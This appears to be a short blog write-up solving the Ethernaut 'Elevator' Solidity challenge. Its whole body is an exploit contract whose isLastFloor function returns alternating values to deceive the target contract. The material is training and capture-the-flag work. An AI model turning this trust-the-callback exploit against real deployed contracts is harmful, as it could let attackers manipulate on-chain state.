 +++
title = 'Ethernaut Level 11 - Elevator'
date = 2024-08-04
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'I can tell you whatever I want'
tags = [ 'writeups' , 'blockchain' ]
+++

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

interface Elevator {
    function goTo(uint256 _floor) external ;
}

contract Win{
   // Implements the Building interface, but returns false and then true
    Elevator target;
    constructor(address _addr) {
        target = Elevator(_addr);
    }

    function win() public  {
        target.goTo(0);
    }

    bool current = false;
    function isLastFloor(uint256 floorNumber) public returns ( bool )  {
        bool result = current ;
        current = !current;
        return result ;
    }
}
```
